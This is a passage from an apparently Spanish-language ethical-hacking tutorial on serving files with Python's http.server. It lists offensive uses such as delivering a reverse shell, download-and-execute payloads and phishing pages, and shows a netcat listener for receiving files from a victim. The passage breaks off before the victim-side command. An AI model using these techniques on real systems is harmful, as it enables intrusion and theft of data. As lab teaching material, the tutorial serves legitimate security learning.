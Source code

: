 #### Cambiar la IP de escucha (por defecto escucha en 0.0.0.0)

```bash
python3 -m http.server 8000 --bind 127.0.0.1
```

#### Ver en navegador:

Abre en el navegador:

```
http://192.168.56.1:8000
```

---

### 🧠 ¿Por qué es útil en hacking ético?

Porque puedes:

| Situación           | Ejemplo                                                   |
| ------------------- | --------------------------------------------------------- |
| Subir una shell     | Víctima descarga `reverse_shell.py` desde tu servidor     |
| Compartir exploits  | Enviar scripts desde Kali a máquinas vulnerables          |
| Automatizar         | Hacer que un payload se descargue y ejecute desde una URL |
| Phishing o payloads | Servir HTML, JS o binarios si haces ingeniería social     |

---

### 🔐 Seguridad

Este servidor **no tiene autenticación ni cifrado**. Es perfecto para laboratorios, pero en entornos reales:

- Nunca lo expongas a Internet
- Usa HTTPS si necesitas cifrado (con Flask + SSL)
- Usa autenticación básica si lo necesitas (con `http.server` extendido)

---

### 🔄 Alternativa: Transferencia inversa (víctima → atacante)

En caso de querer **recibir archivos desde la víctima**, puedes usar:

#### En Kali:

```bash
nc -lvp 4444 > archivo.zip
```

#### En la víctima:
